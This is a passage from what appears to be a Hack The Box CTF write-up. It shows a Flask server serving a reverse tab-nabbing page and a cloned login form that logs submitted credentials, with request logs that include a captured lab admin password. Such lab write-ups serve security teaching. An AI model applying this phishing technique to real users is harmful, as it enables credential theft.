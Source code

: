 <p>Requests to <code class="language-plaintext highlighter-rouge">/writeup</code> will return the tab nabber page. For <code class="language-plaintext highlighter-rouge">/accounts/login/</code>, if it’s a GET request, it will return the static page I saved. If it is a POST, it will print the form data and then return a redirect back to the legit site. I’ll run the site with <code class="language-plaintext highlighter-rouge">python3 fake_login.py</code>, and the webserver listens on 80:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span>python fake_login.py 
<span class="go"> * Serving Flask app "fake_login" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:80/ (Press CTRL+C to quit)
</span></code></pre></div></div>

<p>Just loading the page myself, I noticed that the CSS and images are off, and there’s a bunch of 404s at Flask:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /accounts/login/ HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/jquery.toasts.css HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/signin.css HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/img/logo.png HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/js/jquery.toast.js HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/signin.css HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/img/logo.png HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/js/jquery.toast.js HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /img/favicon.ico HTTP/1.1" 404 -
</code></pre></div></div>

<p>The links in <code class="language-plaintext highlighter-rouge">loginform.html</code> are all relative. This is not necessary to proceed (it will work without CSS), but of course I’d like to fix it. I could download those files, but I’ll edit the HTML to point back at Developer (final file <a href="/files/developer-loginform.html.txt">here</a>). Now the page looks great:</p>

<picture>
    <source type="image/webp" srcset="/img/image-20210714062827307.webp">
    <img src="/img/image-20210714062827307.png" alt="image-20210714062827307" class="include_image ">
</picture>

<p>Now I can submit <code class="language-plaintext highlighter-rouge">http://10.10.14.6/writeup</code> as a writeup, and it shows up on my profile for a second, and then there’s a request at flask:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>10.10.10.120 - - [15/Jul/2021 14:06:20] "GET /writeup HTTP/1.1" 200 -
10.10.10.120 - - [15/Jul/2021 14:06:20] "GET /favicon.ico HTTP/1.1" 404 -
10.10.10.120 - - [15/Jul/2021 14:06:20] "GET /accounts/login/ HTTP/1.1" 200 -
10.10.10.120 - - [15/Jul/2021 14:06:21] "GET /img/favicon.ico HTTP/1.1" 404 -
10.10.10.120 - - [15/Jul/2021 14:06:21] "POST /accounts/login HTTP/1.1" 308 -
csrfmiddlewaretoken: Example1
login: admin
password: SuperSecurePassword@HTB2021
10.10.10.120 - - [15/Jul/2021 14:06:21] "POST /accounts/login/ HTTP/1.1" 302 -
10.10.10.120 - - [15/Jul/2021 14:06:22] "GET /accounts/login/ HTTP/1.1" 200 -
</code></pre></div></div>
